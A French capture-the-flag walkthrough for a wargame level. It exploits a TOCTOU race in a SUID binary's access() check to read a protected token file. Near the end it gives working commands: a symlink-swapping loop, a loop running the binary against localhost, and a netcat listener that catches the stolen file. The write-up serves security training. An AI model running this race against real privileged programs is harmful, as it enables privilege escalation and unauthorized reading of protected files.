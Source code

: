 Dans le home du level10 se trouve un executable et un fichier token.

Il nous est impossible d'ouvrir le fichier *token* puisqu'il appartient à *flag10*.

Cependant on peut voir que l'executable *level10* appartient aussi à flag10 et qu'il à la permission SUID.

On pourrait donc exploiter cet executable pour se faire passer pour flag10 et ainsi accéder à token.

Cet executable prend 2 paramètres:

`./level10 file host`

Le premier étant un fichier auquel notre utilisateur à le droit d'accéder et le second étant l'ip de destinataire à qui envoyer le fichier.

Pour trouver la faille, il faut utiliser la commande `strings` sur level10:

![image](./strings.png)

On obtient une longue liste de chaine de charactère présentes dans l'executable mais ce qui nous intéresse c'est l'appel à la fonction `access`.

Cette fonction est connue pour être vulnérable aux attaques de type TOCTOU (Time-of-check to time-of-use)

Source:
- man access (dans les notes)
- https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

Il nous faut donc 4 commandes pour récupérer le token:

1. Créer un fichier auquel nous avons accès: touch /tmp/coucou
2. Changer la cible d'un lien sympolique très rapidement pour bypass access: `while true; do ln -fs /tmp/coucou /tmp/lol; ln -fs ~/token /tmp/lol; done`
3. Appeler en boucle `level10` pour envoyer le fichier sur l'adresse locale: `while true; do ./level10 /tmp/lol 127.0.0.1; done`
4. Récupérer le fichier envoyer par `level10`: `nc -l 6969`
